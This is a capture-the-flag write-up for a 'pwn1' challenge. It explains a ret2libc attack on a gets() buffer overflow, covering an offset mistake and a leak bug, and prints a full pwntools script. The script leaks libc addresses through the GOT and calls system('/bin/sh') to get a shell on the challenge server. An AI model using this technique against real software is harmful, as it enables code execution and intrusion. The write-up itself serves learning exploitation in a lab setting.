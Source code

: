 # pwn1

> **Category**: Pwn
> **Author**: Stefan

## TL;DR
A relatively simple Leak2Libc.

---

## Challenge Description
Upon opening the challenge in Ghidra, we had a simple `gets()` and a `puts()` with user input. The goal was to leak the libc address and then use it to get a shell. The buffer was 128 characters long, and I encountered the first problem here:

![Writeup_image_1](https://i.imgur.com/1R2SXOz.png)

## Solution
### Step 1: Identifying the Correct Offset
I initially took the offset from RBP, but I should have looked at the disassembly and taken it from the return address instead. The correct offset was 136 for the RIP register, not 128 as it appeared with RBP.

> **Note**: The RSP register contained the same string as RIP because the main function ended with `leave ret` (function epilogue).

![Writeup_image_2](https://i.imgur.com/0lhtOWs.png)

### Step 2: Fixing the Leak
~~The second issue was that the leak only worked remotely when using `gets` (I'm not sure why).~~
~~As a result, I also had to change the calculation of `libc_base` to use `gets`.~~

![Writeup_image_3](https://i.imgur.com/sITr0BE.png)

The issue was the usage of `strip()`, which removed the last byte. Changing to `strip(b'\n')` fixed this.

### Step 3: Running the Exploit
With the final exploit file, I ran the solve script with the `r` argument and we got a shell.

![Writeup_image_4](https://i.imgur.com/lPsXMez.png)

## Exploit
```python
from pwn import *
import sys

binary = "./main"
remote_conn = "34.107.71.117 32222"
context.log_level = "critical"

if len(sys.argv) > 1 and sys.argv[1] == "l":
    r = process(binary)
    elf = context.binary = ELF(binary)
elif len(sys.argv) > 1 and sys.argv[1] == "r":
    r = remote(remote_conn.split(" ")[0], int(remote_conn.split(" ")[1]))
    elf = ELF(binary)
else:
    print("Usage: python " + sys.argv[0] + " [l|r]")
    sys.exit()

pop_rdi_ret = 0x00000000004011f3
ret = 0x000000000040101a

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.sym['main']

payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(elf.got["puts"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["main"])
r.sendline(payload)
r.recvline()
leak_puts = u64(r.recvline().strip(b'\n').ljust(8, b"\x00"))
print("leak puts: ", hex(leak_puts))

payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(elf.got["gets"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["main"])
r.sendline(payload)
r.recvline()
leak_gets = u64(r.recvline().strip(b'\n').ljust(8, b"\x00"))
print("leak gets: ", hex(leak_gets))

if(sys.argv[1] == 'l'):
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    libc=ELF("./libctarget.so")

libc.address = leak_gets - libc.sym["gets"]
bin_sh = next(libc.search(b"/bin/sh"))
print("libc base: ", hex(libc.address))
print("/bin/sh: ", hex(bin_sh))
print("system: ", hex(libc.sym["system"]))
payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(bin_sh)
payload += p64(libc.sym["system"])

if(sys.argv[1] == "l"):
    gdb.attach(r)

r.sendline(payload)
r.recvline()
r.interactive()
```
## Flag
`CTF{5d312f4b79a334445d084d7eec892bc0a3bec1454e585c4117310b9600e6c1f0}`